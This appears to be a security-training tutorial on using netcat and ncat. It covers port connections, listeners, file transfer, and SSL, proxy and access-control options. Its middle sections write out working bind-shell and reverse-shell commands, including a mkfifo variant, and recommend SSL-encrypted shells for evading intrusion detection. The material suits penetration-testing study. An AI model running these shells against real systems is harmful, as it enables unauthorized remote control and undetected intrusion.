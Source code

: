 # Netcat - the hacker's swiss army knife
![netcat](https://www.dropbox.com/s/um41q9zry0ktuo4/netcat_180.png?raw=1)

Is a tool that can read and write to TCP and UDP ports (can act as client or server).

Netcat is a tool used to:
* Check if port is open or close
* Read a banner from a port.
* To connect to a network service manually.

Netcat binary is present by default in Linux, Windows and MacOSX also if system administrators tend to remove it from the servers for obvious security reasons. 

## How to use netcat as client.
We have already scanned our target with nmap and we know that the following ports are open: 

```Nmap output
Nmap scan report for ************ (10.0.0.22)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
110/tcp  open  pop3
```
Let's try to connect to the port 110 

`netcat -nv 10.0.0.22 110`
```netcat output
(UNKNOWN)[10.0.0.22] 110 (pop3) open
+OK POP3 server lab ready 
```
In this case after the connection we got a welcome message from the server ( a "banner").

The parameters `-nv` used mean:
+ -n  I will give a numeric IP address and not an host address.  
+ -v  verbose mode. 

## How to use netcat as server (listener)

To listen with netcat on a TCP or UDP port we will set it up as server on our localhost and try to talk with it through another computer connected on the same network (or virtual machine).

`netcat -nlvp 444`
```output netcat server
listening on [any] 4444 ...
```
Explanation new parameters: 
+ -l listen mode (for inbound connections)
+ -p specify a port


We can connect to this port using the same command that we used before to use netcat as client from another machine.
I will use the address 10.0.0.22 as the server one.

`netcat -nv 10.0.0.22 4444`
```output ncat client
(UNKNOWN) [10.0.0.22] 4444 (?) open
I can write here and the server will be able to see ! 
Also, if I write in the server prompt the client will be able to see it ! 
Congratulation you created a chat ! 
```

## Transfer files with netcat 

Netcat can also be used to transfer file between a server and a client.

Set up the server that will receive:
`netcat -nlp 4444 > incoming.exe`

Set up the client that will send:
`netcat -n 10.0.0.22 4444 < file_to_transfer.exe`

Netcat will not give us any feedback, but the file will be in the specified folder. 
Check for file size matching before quitting the connection. 

## Remote administration with netcat
As we previously saw with netcat is possible to create a communication between a client and a server.
This textual exchange of messages can be used to do command redirection.
We can take an executable file and redirect the input, output, and error messages to a TCP/UDP port rather than the default console.
There are two tipes of connection that can be enstablished, and it's really important to understand when one rather than the other should be  used. 

### Bind shell 
A bind shell is enstablished when a server that has a public ip address opens a port to a client and binds a shell to that port.(fig.1)
So when the client connects to this public address on this port it will be welcomed with the server command prompt.

![bindshell](https://www.dropbox.com/s/ul38konoyhnx232/2017-12-01%2016.46.29.jpg?raw=1)

To create a bind shell the attacker should connect (as client) to the target (server).
The *target* will open a netcat session as server with a shell binded to it (es. from Windows):

`netcat -nlvp 4444 -e cmd.exe`

Parameters:
+ -e  execute

The *attacker* will then connect to the server and get command prompt access:
a.b.c.d is the public IP address of the server.
`# netcat -nv a.b.c.d 4444`
From now on, everything written on the attacker computer will be sent to cmd.exe on the target computer and the output redirected back to the attacker.



### Reverse shell

![reverseshell](https://www.dropbox.com/s/8uvared7qrkz9dv/2017-12-01%2017.02.28.jpg?raw=1)

To create a reverse shell the attacker is the server and the target will connect to it as client.
The *attacker* will create a server.
`netcat -nlvp 4444`

The *target* will connect to the server and bind a shell to the opne TCP port (es. from Linux):
a.b.c.d is the public IP address of the server 
`netcat -nv a.b.c.d -e /bin/bash`

### Conclusions.
Which type of connection should I use? 
If you are on a LAN, both method will work just fine. 
In a real scenario the computer to attack will be positioned inside a private network and the attacker will not be able to connect to it because some kind of firewall will block the incoming connection to that port ! 
Usually firewalls block incoming connection and not outgoing connections, this is why we should use a reverse shell.
A *reverse shell* allows to the target to connect to us (and we should have control on our router firewall) through our public IP. 

### Others infoz.
There are versions of netcat that don't have -e or -c options. 

A binding shell can be enstablished in this way:

* Server side: 
`rm -f /tmp/f; mkfifo /tmp/f`
`cat /tmp/f |/bin/bash -i 2>&1 |nc -l a.b.c.d PORT>/tmp/f `

* Client side:
`nc a.b.c.d PORT`


## ncat and encrypted link between a server and a client (SSL)
[ncat](https://nmap.org/ncat/) was written for the nmap project as a much-improved reimplementation of netcat.
Ncat is able to enstablish end-to-end encrypted connections between a client and a server (SSL), redirect TCP and UDP ports to other sites, proxy connections via SOCKS4 or HTTP proxies. 

### Use ncat with SSL to encrypt your bind or reverse shell.

Encryption of the bind or reverse shell will help the penetration tester in avoiding intrusion detection systems (IDS), and will allow to not expose penetrated machines to unwanted IPs. 

To set up a bind shell with SSL encryption: 

* SERVER
  `ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`

   options explained:
     + --exec used to specify the executable file (in this case a windows command prompt).
     + --allow specify the IP of the client that is allowed to connect with the server.
     + --ssl  activate ssl encryption of the connections. 

+ CLIENT
   `ncat -v 10.0.0.22 4444 --ssl`


Now all the data exchanged between the server and the client is protected by SSL (Secure Sockets Layer). 


### ncat - connect to an HHTPS website

`ncat -v --ssl google.com 443`

### ncat - forward a local port
ncat -vl 7777 -c `ncat remote_host 8080`

### ncat - connect through a proxy
`ncat --proxy proxy_server:port --proxy-type {socks4|http} remote_host port [--proxy-auth username:password ] 
(Proxies that return status code 407 require authentication)

### ncat - create an HHTP proxy
`ncat -vl --proxy-type http 7777 [--allow 123.45.67.89 --proxy-auth user:pass]`

### ncat - Configure access controls for listening sockets
```
ncat -vl 7777 {--allow|--deny}  remotehost
ncat -vl 7777 {--allow|--deny}  10.0.0.10
ncat -vl 7777 {--allow|--deny}  10.0.0.10,10.0.0.20
ncat -vl 7777 {--allow|--deny}  10.0.0.10-20
ncat -vl 7777 {--allow|--deny}  10.0.0.0/24
ncat -vl 7777 {--allow-file|--deny-file} hosts.txt
```

## BONUS

* [Netcat Cheatsheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
* [ncat user guide](https://nmap.org/ncat/guide/)
